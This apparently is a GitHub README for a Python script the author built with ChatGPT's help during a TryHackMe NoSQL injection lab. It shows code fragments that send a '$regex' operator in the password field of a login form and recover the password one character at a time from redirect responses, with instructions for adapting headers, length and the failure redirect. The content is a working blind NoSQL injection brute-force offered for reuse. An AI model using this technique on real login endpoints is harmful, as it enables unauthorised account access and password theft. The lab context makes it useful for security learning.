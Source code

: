 # no-sql-password-bruteforce
With the help of chatgpt, I made a script that bruteforces the password of a no sql application while doing a THM lab (https://tryhackme.com/room/nosqlinjectiontutorial)

![image](https://github.com/user-attachments/assets/f0101684-605d-4185-b2b7-0c58191c93e6)

After running the script

![image](https://github.com/user-attachments/assets/5d6b0b3e-ce42-44e3-9eb2-caf134330193)

# What to do first

*First, fill the headers and data such that it is the same as your HTTP request.*

Example: 
```
headers = {
    "Host": "10.10.123.171",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.123.171",
    "Connection": "keep-alive",
    "Referer": "http://10.10.123.171/",
    "Cookie": "PHPSESSID=2j8v8s9atem0ks7a6gtpmmedgk",
    "Upgrade-Insecure-Requests": "1"
}

def try_password_regex(prefix):
    data = {
        "user": "pedro",
        "pass[$regex]": f"^{prefix}.*$",
        "remember": "on"
    }
    response = requests.post(url, headers=headers, data=data, allow_redirects=False)
    return response
 ```
 
*Second, don't forget to change the max number of characters (for me it was 4 characters for the user pedro)*

*Lastly, change the location header that it will redirect you to if the password fails.*

```
 if response.status_code == 302 and location_header != "/?err=1":
                password += char
                print(f"[+] Found character {i+1}: {char} => {password}")
                break
```
I was redirected to `/?err=1` if the character was wrong.

# How to run?

just use `python3 nosqlbruteforce.py`

Good Luck!
